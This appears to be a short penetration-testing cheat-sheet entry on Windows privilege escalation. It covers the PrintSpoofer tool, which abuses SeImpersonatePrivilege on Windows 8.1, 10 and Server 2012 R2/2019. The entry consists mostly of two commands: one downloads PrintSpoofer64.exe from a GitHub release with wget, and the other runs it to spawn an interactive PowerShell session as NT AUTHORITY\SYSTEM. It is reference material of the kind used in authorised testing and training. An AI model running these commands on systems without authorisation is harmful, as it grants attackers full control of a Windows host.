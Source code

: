 > Abuses `SeImpersonatePrivilege` on default installations of Windows 8.1, Windows Server 2012 R2, Windows 10 and Windows Server 2019


#Windows_Privilege_Escalation 

# Download

Download `PrintSpoofer64.exe`
```powershell
wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe
```

# Usage

Using `PrintSpoofer` tool to get an interactive PowerShell session in the context of `NT AUTHORITY\SYSTEM`
```powershell
.\PrintSpoofer64.exe -i -c powershell.exe
```
